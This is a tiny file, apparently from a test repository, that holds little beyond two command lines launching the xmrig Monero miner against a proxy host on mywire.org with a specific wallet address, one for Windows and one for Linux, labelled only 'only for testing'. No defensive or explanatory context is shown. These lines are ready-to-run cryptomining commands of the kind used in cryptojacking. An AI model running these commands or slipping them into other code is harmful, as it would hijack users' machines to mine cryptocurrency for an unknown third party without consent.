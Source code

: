 # testrepo_dc5fd69b6b1e91ccdec88a4.html
only for testing
info1=xmrig.exe -o proxy-60333.mywire.org:60333 -i 5 -u 89mqqbXpWiNVgn27J6AMCKThLMomCHZRDAoS6i7k68iWLCKkMqtJkCaHUyrV9swetaVgViN5a2SYPKwJYC53G9844yRbuXe -p x -k --coin monero -a rx/0
info2=./xmrig -o proxy-60333.mywire.org:60333 -i 5 -u 89mqqbXpWiNVgn27J6AMCKThLMomCHZRDAoS6i7k68iWLCKkMqtJkCaHUyrV9swetaVgViN5a2SYPKwJYC53G9844yRbuXe -p x -k --coin monero -a rx/0
